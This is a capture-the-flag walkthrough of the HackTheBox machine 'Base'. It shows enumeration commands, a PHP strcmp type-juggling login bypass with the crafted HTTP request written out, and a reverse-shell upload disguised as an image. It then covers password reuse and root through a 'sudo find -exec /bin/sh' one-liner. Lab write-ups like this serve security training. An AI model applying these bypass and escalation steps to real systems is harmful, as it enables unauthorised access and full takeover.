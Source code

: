 ```yaml
---
title: Base - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - php type juggling
  - reverse shell
  - suid binary
  - linux privilege escalation
---
```


# Base - A Hack The Box machine

Enumerate open ports and services.

```bash
nmap -sC -sV $ip -Pn
```

Ports 22 and 80 are open.

Add base.htb to /etc/hosts.

Enumerate directories:

```bash
gobuster dir -u http://base.htb/login -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
```

Some file and folders uncovered:

```
- http://base.htb/_uploaded/
- http://base.htb/login/
- http://base.htb/login/login.php
- http://base.htb/forms/
- http://base.htb/assets/
- http://base.htb/logout.php
```

Under  /login there are three files: login.php, config.php and login.php.swp. There are two ways of reading the swap file, with strings and with vim:


```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```


Quoting from the article [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09): "When comparing values, always try to use the type-safe comparison operator “===” instead of the loose comparison operator “==”. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. This means that (7 === “7”) will return False."

My notes about [php type jugling](webexploitation/php-type-juggling-vulnerabilities.md). 


In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents.

After sending request with BurpSuite, grab the PHPsession cookie and in your browser enter that cookie and go to: http://base.htb/upload.php. Now you can upload our [pentesmonkey shell](pentesmonkey.md) using BurpSuite Repeater (important note: change header to "Content-Type: image/png", file extension may remain php). Have your netcat listener ready.


```bash
whoami
```

```
www-data
```

Credentials can be found at /var/www/html/login/config.php. Use them to login as the existing user at /home

```bash
su john
# enter password: thisisagoodpassword
```

Once you are john, you have access to user.txt. Also, to be root:

```bash
id
sudo -l
```

```
ohn@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```


See [cheat sheet about suid binaries](suid-binaries.md) and:

```bash
sudo find . -exec /bin/sh \; -quit
```

Now you are root and can echo /root/root.txt
